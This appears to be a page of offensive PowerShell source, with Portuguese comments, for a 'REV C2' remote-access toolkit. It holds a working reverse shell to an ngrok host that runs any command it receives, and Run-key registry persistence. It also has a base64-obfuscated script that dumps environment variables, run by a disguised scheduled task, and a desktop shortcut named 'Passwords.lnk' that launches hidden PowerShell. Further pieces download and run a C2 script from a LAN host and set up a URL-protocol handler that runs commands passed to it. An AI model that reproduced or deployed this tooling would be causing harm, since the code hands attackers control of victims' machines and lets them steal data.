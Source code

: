 #############
# REV C2    #
#############
do {
 
 Start-Sleep -Seconds 1

 
 try{
 $TCPClient = New-Object Net.Sockets.TCPClient('0.tcp.sa.ngrok.io', 19352)
 } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)


function WriteToStream ($String) {
 
 [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

 
 $StreamWriter.Write($String + 'SHELL> ')
 $StreamWriter.Flush()
}


WriteToStream ''


while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
 
 $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
 
 
 $Output = try {
 Invoke-Expression $Command 2>&1 | Out-String
 } catch {
 $_ | Out-String
 }

 
 WriteToStream ($Output)
}

$StreamWriter.Close()





#######################
# Criar o registro    #
#######################

New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Friedrich" -Value "C:\Users\Administrator\Downloads\revc2.exe" -PropertyType String -Force

###############################################
# Persistencia verificando se ja está em exec #
###############################################

$pacote = $env:TEMP
$b64 = "U3RhcnQtVHJhbnNjcmlwdCAtUGF0aCAiJGVudjpURU1QXGxvZy50eHQiCkdldC1DaGlsZEl0ZW0gRW52OgpTdG9wLVRyYW5zY3JpcHQ="
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64))
echo "$decodedString" > $pacote\coman.ps1

# Adiciona um trecho no script que verifica se já está em execução
$checkScript = @'
if (!(Get-Process -Name "powershell" -ErrorAction SilentlyContinue | Where-Object {$_.Path -eq "$env:TEMP\coman.ps1"})) {
    Start-Transcript -Path "$env:TEMP\log.txt"
    Get-ChildItem Env:
    Stop-Transcript
}
'@

# Salva a verificação de execução no script `coman.ps1`
Set-Content -Path "$pacote\coman.ps1" -Value $checkScript

# Cria a tarefa agendada para rodar o script com verificação de execução
schtasks.exe /Create /F /TN '{E6ADZA37-C329-4967-9CF5-2682DA7D97BE}' /TR "powershell.exe -ExecutionPolicy Bypass -File $env:TEMP\coman.ps1 -WindowStyle Hidden" -SC MINUTE

# Exibe e limpa o log de saída
type $pacote\log.txt
echo "" > $pacote\log.txt

###############################################
# Criando atalho link                         #
###############################################

# Caminho do atalho e do script PowerShell
$atalhoPath = "$env:USERPROFILE\Desktop\Passwords.lnk"
$scriptPath = "$env:TEMP\my_script.ps1"

# Criar o conteúdo do script PowerShell na pasta TEMP
$scriptContent = 'echo "Arquivo de atalho executado" > "$env:USERPROFILE\Desktop\atalho_executado.txt"'
Set-Content -Path $scriptPath -Value $scriptContent

# Caminho para o executável do PowerShell
$destino = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

# Argumentos para chamar o script .ps1 no PowerShell
$argumentos = "-ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File `"$scriptPath`""

# Criar o atalho
$WshShell = New-Object -ComObject WScript.Shell
$atalho = $WshShell.CreateShortcut($atalhoPath)

# Configurar propriedades do atalho
$atalho.TargetPath = $destino
$atalho.Arguments = $argumentos
$atalho.Description = "Atalho para execução de script PowerShell"
$atalho.Hotkey = "Ctrl+Alt+A"
$atalho.IconLocation = "$env:SystemRoot\System32\imageres.dll, 3"  # Ícone personalizado
$atalho.WindowStyle = 3  # Minimizado
$atalho.Save()

Write-Output "Atalho criado em: $atalhoPath"

###############################################
# baixar c2                                   #
###############################################

$sourceUrl = "http://192.168.1.40/c2-shell.ps1";$destinationPath = "$env:TEMP\Ahhsd-Ett-11333-aADff.ps1";Invoke-RestMethod -Uri $sourceUrl -OutFile $destinationPath;Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File $env:TEMP\Ahhsd-Ett-11333-aADff.ps1" -WindowStyle Hidden




###############################################
# Persistencia com programas legitimos        #
###############################################

Esse comando pode ser usado para criar uma integração com um protocolo personalizado (como myprotocol:/open), permitindo que aplicativos externos executem comandos PowerShell passando-os por URL. O myprotocol seria, então, substituído por um comando específico do usuário.


powershell.exe -NoExit -ExecutionPolicy Bypass -Command "
    $EncodedParam = [System.Uri]::UnescapeDataString('%1'); 
    if ($EncodedParam -like 'myprotocol:/open*') { 
        $EncodedParam = $EncodedParam -replace 'myprotocol:/open\s?', '' 
    }; 
    Write-Host 'Parametro recebido: $EncodedParam'; 
    Start-Process -NoNewWindow -FilePath 'powershell.exe' -ArgumentList ('-Command', $EncodedParam)
"
